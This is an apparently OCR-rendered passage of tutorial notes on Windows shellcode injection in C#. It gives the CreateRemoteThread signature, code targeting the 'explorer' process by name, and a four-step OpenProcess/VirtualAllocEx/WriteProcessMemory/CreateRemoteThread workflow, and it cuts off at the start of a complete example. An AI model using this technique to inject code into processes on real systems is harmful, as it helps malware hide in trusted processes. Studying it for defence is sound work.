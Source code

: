     ```c
    HANDLE CreateRemoteThread(
      HANDLE                 hProcess,
      LPSECURITY_ATTRIBUTES  lpThreadAttributes,
      SIZE_T                 dwStackSize,
      LPTHREAD_START_ROUTINE lpStartAddress,
      LPVOID                 lpParameter,
      DWORD                  dwCreationFlags,
      LPDWORD                lpThreadId
    );
    ```
    
    Usage:
    
    ```csharp
    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,
        IntPtr.Zero, 0, IntPtr.Zero);
    ```
    
    - Executes shellcode starting at `addr` inside target process.
    - Parameters & flags set to defaults (`0` or `NULL`).
6. **Dynamic PID Resolution (Optional Improvement)**
    
    Instead of hardcoding PID, resolve dynamically:
    
    ```csharp
    string targetProcessName = "explorer";
    Process[] processes = Process.GetProcessesByName(targetProcessName);
    
    if (processes.Length == 0) {
        Console.WriteLine($"Process {targetProcessName} not found.");
        return;
    }
    
    int pid = processes[0].Id;
    Console.WriteLine($"[*] Found {targetProcessName} with PID {pid}");
    
    ```
    
7. **Full Injection Workflow**
    1. Get target process handle with `OpenProcess`.
    2. Allocate memory in remote process with `VirtualAllocEx`.
    3. Write shellcode into memory with `WriteProcessMemory`.
    4. Create a thread to execute shellcode with `CreateRemoteThread`.
8. **Complete Example**        
      ```csharp
        using System;
        using System.Runtime.InteropServices;
        
        namespace Inject
        {
            class Program
            {
                [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
                static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        